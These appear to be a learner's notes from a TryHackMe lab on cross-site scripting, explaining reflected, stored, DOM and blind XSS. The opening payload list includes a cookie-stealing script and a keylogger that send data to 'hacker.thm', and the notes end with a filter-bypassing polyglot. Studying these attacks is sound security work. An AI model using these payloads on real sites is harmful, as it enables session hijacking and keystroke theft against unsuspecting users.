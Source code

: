 ## some usefull payloads

POC : `<script>alert('XSS');</script>`

session stealling : `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

keyloogger : `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

## types 

1. reflected
2. stored
3. blind
4. dom

### Reflected xss

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/8e3bffe500771c03366de569c3565058.png)

some testing points :
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected

### stored xss

XSS payload is stored on the web application and gets run when other users visit the site or web page.

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/cc2566d297f7328d91bc8552f902210e.png)


test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to eg: comments, user profile information

### Dom blind

what is DOM: 

Document Object Model and is a programming interface for HTML and XML documents.It represents the page so that programs can change the document structure, style and content.

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/24a54ac532b5820bf0ffdddf00ab2247.png)


DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code.

Execution occurs when the website JavaScript code acts on input or user interaction.


eg : The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section.


### Blind xss

Blind XSS is similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

A popular tool for Blind XSS attacks is [xsshunter](https://xsshunter.com/). 

***

#### Polygot

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully. 

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e

```